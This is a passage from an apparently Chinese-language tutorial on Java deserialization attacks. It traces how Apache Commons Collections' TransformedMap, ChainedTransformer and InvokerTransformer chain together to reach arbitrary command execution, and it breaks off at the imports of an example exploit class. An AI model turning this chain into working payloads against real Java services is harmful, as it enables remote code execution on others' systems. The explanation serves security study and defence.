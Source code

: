 然后要想利用 `InvokerTransformer` 类中的 `transform()`来达到任意命令执行，还需要一个入口点，使得应用在反序列化的时候能够通过一条调用链来触发 `InvokerTransformer` 中的`transform()` 接口。

然而在 Apache Commons Collections 里确实存在这样的调用，其一是位于 `TransformedMap` 类中的`checkSetValue()` 方法：

    
    
    #!java
    public class TransformedMap
            extends AbstractInputCheckedMapDecorator
            implements Serializable {
    ...省略...
        protected Object checkSetValue(Object value) {
            return valueTransformer.transform(value);
        }
    

而 `TransformedMap` 实现了 `Map` 接口，而在对字典键值进行 `setValue()` 操作时会调用`valueTransformer.transform(value)`。

    
    
    #!java
    ...省略...
            public Object setValue(Object value) {
                value = parent.checkSetValue(value);
                return entry.setValue(value);
            }
        }
    

好的，现在已经找到了反射调用的上一步调用，这里为了多次进行多次反射调用，我们可以将多个 `InvokerTransformer` 实例级联在一起组成一个`ChainedTransformer` 对象，在其调用的时候会进行一个级联 `transform()` 调用：

    
    
    #!java
    public class ChainedTransformer implements Transformer, Serializable {
    ...省略...
        public Object transform(Object object) {
            for (int i = 0; i < iTransformers.length; i++) {
                object = iTransformers[i].transform(object);
            }
            return object;
        }
    

现在已经可以造出一个 `TransformedMap` 实例，在对字典键值进行 `setValue()` 操作时候调我们构造的`ChainedTransformer`，下面给出示例代码：

    
    
    #!java
    package exserial.examples;  
    
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.TransformedMap;   
    
    import java.util.HashMap;
    import java.util.Map;   
    